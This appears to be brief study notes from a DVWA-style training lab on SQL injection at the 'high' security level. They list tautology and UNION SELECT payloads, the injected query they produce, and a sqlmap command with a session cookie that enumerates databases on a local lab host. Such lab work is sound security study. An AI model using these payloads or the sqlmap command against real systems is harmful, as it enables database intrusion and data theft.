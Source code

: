 sql injection high vulnerability : --------------------------------------
1'

%' '0' = '0

%' '0' = '0' #

SELECT first_name, last_name FROM users WHERE user_id = '%' '0' = '0' #' LIMIT 1;

1 ' UNION SELECT null, version() #


using sqlmap : - 

sqlmap -u "http://172.17.0.2/vulnerabilities/sqli/?id=1" --cookie="PHPSESSID=lred0jr6na1vmci2o8160sb5ff; security=high" --dbs


